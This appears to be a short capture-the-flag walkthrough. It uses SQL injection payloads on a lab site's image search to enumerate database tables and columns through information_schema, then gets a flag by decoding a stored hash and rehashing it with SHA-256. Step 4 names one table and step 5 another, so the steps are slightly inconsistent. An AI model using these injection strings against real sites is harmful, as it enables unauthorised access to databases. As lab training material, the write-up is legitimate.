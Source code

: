 1. go to website then click on search images.
2. try see if ("1 or 1 = 1)" returns images.
3. then type "(1 or 1 = 1 UNION SELECT table_schema, table_name FROM information_schema.TABLES)"
4. use the search function(ctrl + f) and search for a table called list_images.
5. once you have found a table called Member_images now its time to find the columns .
6. then type "(1 or 1 = 1 UNION SELECT table_name, column_name FROM information_schema.COLUMNS)"
7. then we search the columns and there should be 4. id/url/title/comment.
8. then we search the columns and find 5th comment and says we have to decode 1928e8083cf461a51303633093573c46 and then lower all the letters then encrypt it with sha256.
9. f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188